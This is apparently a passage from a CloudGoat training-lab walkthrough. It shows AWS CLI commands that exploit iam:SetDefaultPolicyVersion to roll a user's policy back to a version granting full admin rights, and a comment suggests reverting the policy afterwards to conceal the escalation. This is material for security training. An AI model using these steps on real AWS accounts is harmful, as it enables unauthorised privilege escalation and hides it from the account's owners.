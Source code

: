 ```bash
    --only-attached --scope Local \
    --query "Policies[?starts_with(PolicyName, 'cg')]" \
    --profile scenario1



# ------------- 4. reviewing the old versions policy
aws iam get-policy-version \
    --policy-arn <generatedARN>/cg-raynor-policy \
    --version-id <versionID> \
    --profile raynor
# one version offers a full set of admin rights.
# the IAM identity with the policy is allowed to
# - perform any IAM "Get" or "List" operations against any resource.
# - one "Set" operation, iam:SetDefaultPolicyVersion, is allowed against any resource.
# iam:SetDefaultPolicyVersion is allowed can lead to serious security issues.



# ------------- 5. review previous IAM policy versions
# check if there are other versions of the customer managed policy cg-raynor-policy.
# there can be up to 5 versions of the policy.
aws iam list-policy-versions \
    --policy-arn <generatedARN>/cg-raynor-policy \
    --profile raynor


aws iam get-policy-version \
    --policy-arn <generatedARN>/cg-raynor-policy \
    --version-id <versionID> \
    --profile raynor


# restore the one which allows full admin privileges,
aws iam set-default-policy-version \
    --policy-arn <generatedARN>/cg-raynor-policy \
    --version-id v5 \
    --profile raynor


# As a final step, may choose to revert Raynor's policy version back to the original one,
# thereby concealing the actions and the true capabilities of the IAM user.

# Destroy the scenario resources
python3 cloudgoat.py destroy iam_privesc_by_rollback
```



---


### Scenarios 2: lambda_privesc (Small / Easy)

